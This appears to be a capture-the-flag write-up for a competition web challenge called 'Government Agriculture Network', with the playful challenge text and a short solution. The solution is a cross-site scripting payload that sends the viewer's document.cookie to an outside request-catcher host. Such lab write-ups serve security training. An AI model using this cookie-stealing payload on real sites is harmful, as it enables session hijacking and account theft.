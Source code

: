 <span class="glitch__line glitch__line--first"></span>
<span class="glitch__line glitch__line--second"></span>
<h1 class="glitch glitch__color glitch__color--red">Government Agriculture Network</h1>
<h1 class="glitch glitch__color glitch__color--green">Government Agriculture Network</h1>
<h1 class="glitch glitch__color glitch__color--blue">Government Agriculture Network</h1>
<h1 class="glitch glitch__color">Government Agriculture Network</h1>
<br />
<br />

## Task
Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here. Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child. The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity. You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's host to rescue it.

[https://govagriculture.web.ctfcompetition.com/](https://govagriculture.web.ctfcompetition.com/)

## Solution
if we submit the following message, [RequestCatcher](`https://foobar123543.requestcatcher.com`) shows the [flag](../flags.html#30_governmentagriculturenetwork).

```html
<script>
 location.href = 'https://foobar123543.requestcatcher.com/flag?cookie='+document.cookie;
</script>
```
